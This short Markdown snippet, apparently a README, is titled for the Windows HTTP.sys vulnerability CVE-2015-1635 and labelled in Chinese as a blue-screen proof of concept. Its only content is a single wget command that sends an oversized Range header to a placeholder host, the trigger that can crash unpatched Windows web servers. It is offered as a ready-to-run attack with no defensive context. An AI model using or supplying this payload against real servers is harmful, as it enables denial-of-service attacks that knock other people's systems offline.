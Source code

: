 # Microsoft Windows HTTP.sys(CVE-2015-1635)

蓝屏POC：
* wget http://www.host.com --header="Range: bytes=0-18446744073709551615" http://www.host.com
